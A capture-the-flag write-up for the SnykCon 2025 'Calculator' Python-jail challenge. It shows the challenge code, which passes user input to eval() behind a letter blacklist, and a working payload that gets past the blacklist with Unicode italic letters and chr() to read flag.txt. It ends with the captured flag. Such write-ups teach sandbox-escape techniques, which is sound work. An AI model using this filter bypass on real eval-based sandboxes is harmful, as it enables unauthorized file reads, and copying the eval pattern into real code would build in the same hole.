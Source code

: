 # Calculator
![image](https://github.com/user-attachments/assets/e263c5e0-ab0b-4116-86a2-e6f3b2b3cec8)

Attachment: [calculator.py](https://raw.githubusercontent.com/LazyTitan33/CTF-Writeups/refs/heads/main/SnykCon2025/attachments/calculator.py)

## Writeup

This challenge is a pyjail that I need to escape. I can't use underscore or any ASCII letters. 

```python
import sys

def simple_calculator():
    print("Welcome to the Simple Calculator!")
    print("Enter a mathematical expression:", end=' ')
    expression = input()
    sys.stdin.close()
    try:
        blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
        for x in expression:
            if x in blacklist:
                print(f"{x} is not allowed!")
                exit()
        result = eval(expression)
        print(f"The result is: {result}")
    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    simple_calculator()
```


A good cheatsheet for pyjail that I tend to use can be found here: https://shirajuki.js.org/blog/pyjail-cheatsheet

Python has a habbit of normalizing unicode so I can use this to turn ASCII letters into Unicode: https://lingojam.com/ItalicTextGenerator

I just wanted to read the flag so I used this command:

```
𝗈𝗉𝖾𝗇(𝖼𝗁𝗋(102)+𝖼𝗁𝗋(108)+𝖼𝗁𝗋(97)+𝖼𝗁𝗋(103)+𝖼𝗁𝗋(46)+𝖼𝗁𝗋(116)+𝖼𝗁𝗋(120)+𝖼𝗁𝗋(116)).𝗋𝖾𝖺𝖽()
```
I'm using chr() to build `flag.txt` since that can't be Unicode otherwise it won't find the file. 

![image](https://github.com/user-attachments/assets/cc15298f-57b7-4de3-a13f-1848e0b52ba0)

flag{46816031cb2177d2b9cbffe66a93d415}

